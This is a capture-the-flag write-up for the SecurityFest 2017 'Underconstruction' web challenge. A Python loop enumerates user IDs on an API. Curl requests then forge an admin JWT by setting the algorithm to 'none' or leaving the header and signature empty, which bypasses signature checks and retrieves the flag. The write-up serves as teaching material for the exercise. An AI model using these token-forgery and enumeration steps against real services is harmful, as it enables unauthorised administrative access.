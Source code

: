 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2017-06-02
date: 2017-03-20
title: SecurityFest2017 - Underconstruction
tags: jwt
mathjax: false
imagefeature: 
description: SecurityFest2017 - Underconstruction
category: Web Exploitation
chart: null
---
```



## Problems

```
Under Construction! Please protect your head, wear a hardhat.
Solves: 12
Service: http://web.ctf.rocks:8080
Author: Kits / weckzen
```


## Writeup

at this web challenges we can read in the source code at root path

```html
<!-- I don't know the status of the front end but the back end is coming along nicely. Try /login with {"username": "user", "password":"password"} -->
```

using this curl to login 
```
➔ curl -H "Content-Type: application/json" \
-X POST -d '{"username":"user","password":"password"}' \
http://web.ctf.rocks:8080/login
```

and we get this response 
```
< HTTP/1.1 200 
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Cache-Control: no-cache, no-store, max-age=0, must-revalidate
< Pragma: no-cache
< Expires: 0
< X-Frame-Options: DENY
< Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY
< Content-Length: 51
< Date: Fri, 02 Jun 2017 03:23:30 GMT
< 
* Connection #0 to host web.ctf.rocks left intact
{"userId":"52","authorizedURLs":["/login","/apis"]}
```

information we get is UserID:52 and authorizedURLs: ['/login','/apis'] , and we got authorization header 
with JWT (Json Web Token).

`eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY`
jwt have 3 part `<header>.<payload>.<signature>` 

```
Header : 
➔ echo -n eyJhbGciOiJIUzI1NiJ9 | base64 -d
{"alg":"HS256"}% 

Payload : 
➔ echo -n eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0 | base64 -d
{"user":"user","exp":1497237810}

Signature :
*Signature is constructed using this algorithm 

HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
secret
)

*Concatenating base64 header and payload with "." and encrypt with some custom secret string

```

let's trying what /apis endoint does with this curl.

```
➔ curl -H "Content-Type: application/json" \
-X GET \         
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' http://web.ctf.rocks:8080/apis
{"timestamp":1496374182620,"status":400,"error":"Bad Request","exception":"org.springframework.web.bind.MissingServletRequestParameterException","message":"Required Integer parameter 'userId' is not present","path":"/apis"}% 
```

missing parameter `userId`

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' "http://web.ctf.rocks:8080/apis?userId=52" 
{"urls":["/login","/apis"],"id":52,"user":"user"}
```

using some python to enumurate other users urls.

```python
import requests
import json

url = "http://web.ctf.rocks:8080/apis"



payload = "{\"username\": \"user\", \"password\":\"password\"}"
headers = {
    'content-type': "application/json",
    'cookie': "JSESSIONID=4B17338B92DFAF214BAF7D40F29FC561",
    'authorization': "Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5ODI2MH0.FwX2y37d7C1eQdiLgrsyCoWc-PbMb_O4KfKT3KtpQZw",
    'cache-control': "no-cache",
    'postman-token': "c8908859-4423-0bf5-1049-db1bc7ffcc27"
    }


for x in range(100):
    querystring = {"userId":x}
    response = requests.request("GET", url, data=payload, headers=headers, params=querystring)
    result = json.loads(response.text)
    print(result['urls'], x, result['user'])
```

get this result

```
([u'/login', u'/apis', u'/supersecretflagresource'], 0, u'admin')
([u'/login', u'/apis'], 1, u'Patrik')
([u'/login', u'/apis'], 2, u'Joakim')
([u'/login', u'/apis'], 3, u'Joakim')
([u'/login', u'/apis'], 4, u'Joakim')
([u'/login', u'/apis'], 5, u'Joakim')
([u'/login', u'/apis'], 6, u'Joakim')
([u'/login', u'/apis'], 7, u'Joakim')
([u'/login', u'/apis'], 8, u'Joakim')
([u'/login', u'/apis'], 9, u'Joakim')
([u'/login', u'/apis'], 10, u'Joakim')
```

we got some interesting urls `/supersecretflagresource`.
but we can't access it directly because they validating our Authorization header JWT is not Admin

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' "http://web.ctf.rocks:8080/supersecretflagresource" 
{"timestamp":1496374542889,"status":403,"error":"Forbidden","message":"Access is denied","path":"/supersecretflagresource"}
```

I am not solving this while the competition but trying to documenting this is a good challenge.
if we change the JWT payload part to `{"user":"admin","exp":1497237810}` this will trigger exception because
the signature validation is error.

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcyMzc4MTB9.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq' "http://web.ctf.rocks:8080/supersecretflagresource" 
{"timestamp":1496374872312,"status":500,"error":"Internal Server Error","exception":"io.jsonwebtoken.SignatureException","message":"JWT signature does not match locally computed signature. JWT validity cannot be asserted and should not be trusted.","path":"/supersecretflagresource"}
```

so after reading some writeup there are 2 ways to bypass this restriction :
1. change the header algorithm to none and empty signature the payload `{"user":"admin","exp":1497099449}` `<header>.<payload>.`
2. using empty header and empty signature and change the payload to `{"user":"admin","exp":1497099449}` `.<payload>.`

the first way
```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJub25lIn0_.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcwOTk0NDl9.' "http://web.ctf.rocks:8080/supersecretflagresource"
{"message":"You are close now","script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}","url":"https://kits.se?kokitotsos"}
```

second way
```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer .eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcwOTk0NDl9.' "http://web.ctf.rocks:8080/supersecretflagresource"
{"message":"You are close now","script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}","url":"https://kits.se?kokitotsos"}
```

i am prefer the second way from here `https://losfuzzys.github.io/writeup/2017/05/31/SCTF2017-underconstruction/`
and the author say will remove the confusing part at v1.0 `https://github.com/jwtk/jjwt/issues/212`

so to get the flag just open `https://kits.se?kokitotsos` and fire up console run the javascript function

```js
function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}
```


*Nb : i am trying >12Hour cracking the password of signature to construct a valid signature but got nothing

Flag : `SCTF{lolKOKITOTSOS}`